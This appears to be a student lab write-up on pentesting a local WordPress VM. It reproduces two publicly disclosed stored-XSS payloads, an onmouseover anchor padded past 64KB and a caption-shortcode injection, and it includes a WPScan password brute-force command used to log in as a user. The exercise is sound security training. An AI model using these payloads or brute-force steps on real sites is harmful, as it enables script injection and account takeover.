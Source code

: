 <h1> Wordpress Pentesting </h1>

<h3> Time: approx 14 hours </h3>

<h3> 1. Stored XSS </h3>
Discovered by Jouko Pynnönen of Klikki Oy  <a href=url>https://klikki.fi/adv/wordpress2.html</a> This site was used as a resource. I injected the anchor tag below into the a post. 
      
   <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px [64 kilobytes of Letters]’> </a>

  You need 64 kilobytes of letters due to the MYSQL text size limit being 64KB so I made that with this python command. <br>
      <strong> python -c 'print ("A"*65600)' > payload.txt </strong> <br>
  In vim you can open up payload.txt and use ":%+" to copy the entire file and then paste it where the letters go in the anchor tag payload.
      This script will be triggered when the comment is viewed.
      ![Image Walkthrough](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/XSS.gif)
 
   <h2> 2. Brute Force Login with WPScan and wordlist </h2>
      
      WPScan can ennumerate users and generate passwords if you use a wordlist.
      -use command: wpscan --url wpdistillery.vm -passwords passwords.txt
      -You can see on the left the admin section is open with the list of users
      -On the write you can see the result of the above command where the users are enumerated with their password.
      -I log in to user Franz using the results of the wpscan 
      
   ![Image Walkthrough](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/password.gif)
     
      
      
  <h2> 3. Another Stored XSS </h3>
      <h4> versions before 4.2.3 are affected</h4>
     Also discovered by Jouko Pynnönen of Klikki Oy  <a href=url>https://klikki.fi/adv/wordpress3.html</a> 
      The following code was inculcated into a post:
      <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
      Wordpress processes this code into the following form
       "<a href="</a<a title=" onmouseover=alert('test')  ">link</a
      ![Image](https://github.com/redbeard-sys/Codepath-week-7-and-8-kali/blob/main/storedXSS.gif)


